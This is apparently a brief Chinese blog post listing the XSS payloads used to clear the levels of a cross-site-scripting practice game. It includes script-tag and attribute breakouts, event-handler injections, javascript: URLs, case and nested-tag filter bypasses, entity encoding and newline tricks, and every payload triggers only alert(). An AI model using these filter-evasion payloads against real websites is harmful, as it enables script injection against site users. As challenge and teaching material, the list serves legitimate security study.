 ```yaml
---
layout: post
title: "xss的语句"
date: 2018-10-05
category: web安全
tags: xss web安全
---
```

这是一个xss的闯关游戏  
xss的payload
1
<script>alert(/xss/)</script>
2
"><script>alert(/xss/)</script>

3

'onmouseover='alert(/xss/)'

4
" oninput=alert`xss`//
" onfocus=alert`xss` autofocus= "
" onchange=alert`xss` "


<img src=x onerror=alert(/xss/)>

5

"><a href=javascript:alert(/xss/)>

6
"><A HREF=javascript:alert(/xss/)>

7
"><scrscriptipt>alert(/xss/)</scscriptript>

8
html 字符实体编码转换
java&#x73;cript:alert(1)

9
java&#x73;cript:alert(1)/*http://*/

10
&t_sort=a" onclick="alert(1)"

15
urlencode
%0a%0d
<img%0asrc=xx%0aonerror=alert(/xss/)>

